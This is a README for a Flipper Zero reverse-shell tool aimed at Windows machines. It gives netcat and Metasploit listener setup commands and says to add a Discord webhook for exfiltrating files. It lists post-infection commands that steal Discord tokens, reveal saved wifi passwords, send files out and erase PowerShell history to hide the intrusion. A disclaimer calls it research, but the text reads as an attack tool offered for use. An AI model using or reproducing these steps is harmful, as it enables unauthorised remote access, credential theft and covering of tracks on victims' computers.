 # Reverse shell for Flipperzero

# Setup

1. listener setup
```
$ nc -nvlp <port_number>
```
or metasploit
```
$ use multi/handler
$ set payload windows/x64/shell/reverse_tcp
$ set lhost <ip address>
$ set lport <port number>
$ run
```

2. Insert the IP address and Port of your listener into the ReverseShell.txt file
3. Insert discord webhook for exfiltrating files to such in the ReverseShell.txt
   - use a url shortener for fast execution. 

# Disclaimer
I am not responsible for the usage of this utility, it is simply for researching and experimentation for myself. The user, YOU take full responsibility for your actions.

# Have fun!
Additional commands after infection

  /tgrizzly
  - exfiltrates discord tokens and saves them to C:\temp\output.txt

  /wifi
  - shows saved wifi passwords

  /discord <filename>
  - send the file to your discord webhook

  /clean
  - removes powershell history
